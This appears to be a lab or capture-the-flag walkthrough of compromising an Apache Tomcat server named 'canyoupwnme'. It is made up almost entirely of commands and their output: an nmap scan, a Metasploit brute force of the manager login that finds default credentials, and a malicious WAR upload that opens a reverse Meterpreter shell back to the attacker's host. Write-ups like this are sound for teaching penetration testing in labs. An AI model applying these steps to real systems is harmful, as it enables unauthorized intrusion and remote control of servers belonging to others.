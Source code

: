 # Tomcat

Goal of this attack is to deploy a reverse shell on the target machine.

## Port scanning to identify Tomcat

Let's scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    8080/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
    | http-methods:
    |   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
    |_  Potentially risky methods: PUT DELETE
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat
    ...

## Check what is available

With your browser, open the URL

    http://canyoupwnme:8080/manager

Seems that the Tomcat's management console is available, but authentication is
needed. Metsasploit can help us...

## Brute forcing the Tomcat's management console

    msf > use auxiliary/scanner/http/tomcat_mgr_login
    msf auxiliary(tomcat_mgr_login) > set rhosts canyoupwnme
    msf auxiliary(tomcat_mgr_login) > set rport 8080
    msf auxiliary(tomcat_mgr_login) > exploit

    [!] No active DB -- Credential data will not be saved!
    [-] 10.0.100.195:8080 TOMCAT_MGR - LOGIN FAILED: admin:admin (Incorrect: )
    [-] 10.0.100.195:8080 TOMCAT_MGR - LOGIN FAILED: admin:manager (Incorrect: )
    ...)
    [+] 10.0.100.195:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
        ...
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf auxiliary(tomcat_mgr_login) > quit

Yep! Credentials `tomcat:tomcat` were found. Still using Metasploit, we can
upload a crafted `.WAR` in order to have a reverse TCP shell enabled.

## Injecting a reverse shell

    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set username tomcat
    msf exploit(tomcat_mgr_upload) > set password tomcat
    msf exploit(tomcat_mgr_upload) > set rhost canyoupwnme
    msf exploit(tomcat_mgr_upload) > set rport 8080
    msf exploit(tomcat_mgr_upload) > exploit

    [*] Started reverse TCP handler on 10.0.100.245:4444
    [*] canyoupwnme:8080 - Retrieving session ID and CSRF token...
    [*] canyoupwnme:8080 - Uploading and deploying Hv5hJD7sAuzbRX3UGWiOctD6yz3j...
    [*] canyoupwnme:8080 - Executing Hv5hJD7sAuzbRX3UGWiOctD6yz3j...
    [*] canyoupwnme:8080 - Undeploying Hv5hJD7sAuzbRX3UGWiOctD6yz3j ...
    [*] Sending stage (45741 bytes) to 10.0.100.195
    [*] Meterpreter session 1 opened (10.0.100.245:4444 -> 10.0.100.195:52043) at 2016-04-18 13:33:40 +0200

    meterpreter > shell
    Process 1 created.
    Channel 1 created.
    id
    uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

Got it!

